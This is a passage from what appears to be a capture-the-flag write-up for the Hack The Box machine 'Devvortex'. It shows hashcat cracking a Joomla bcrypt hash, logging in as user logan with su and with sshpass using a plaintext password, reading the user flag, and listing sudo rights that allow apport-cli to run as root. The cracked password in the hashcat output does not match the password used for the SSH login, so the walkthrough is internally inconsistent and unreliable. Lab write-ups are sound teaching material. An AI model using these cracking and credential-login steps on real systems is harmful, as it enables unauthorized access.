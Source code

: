 
    oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes sqlpass --user -m 3200
    hashcat (v6.2.6) starting
    ...[snip]...
    $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u:P4ntherg0t1n5r3c0n##
    ...[snip]...



### su / SSH

From my shell, I can run `su - logan` and enter the password to get a
shell as logan:



    www-data@devvortex:~$ su - logan
    Password: 
    logan@devvortex:~$ 



Or I can SSH from my box:



    oxdf@hacky$ sshpass -p tequieromucho ssh logan@devvortex.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    logan@devvortex:~$



Either way, I can grab `user.txt`:



    logan@devvortex:~$ cat user.txt
    219399c3************************



## Shell as root

### Enumeration

logan can run `apport-cli` as root with `sudo`:



    logan@devvortex:~$ sudo -l
    [sudo] password for logan: 
    Matching Defaults entries for logan on devvortex:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User logan may run the following commands on devvortex:
        (ALL : ALL) /usr/bin/apport-cli



### Failed Attempts
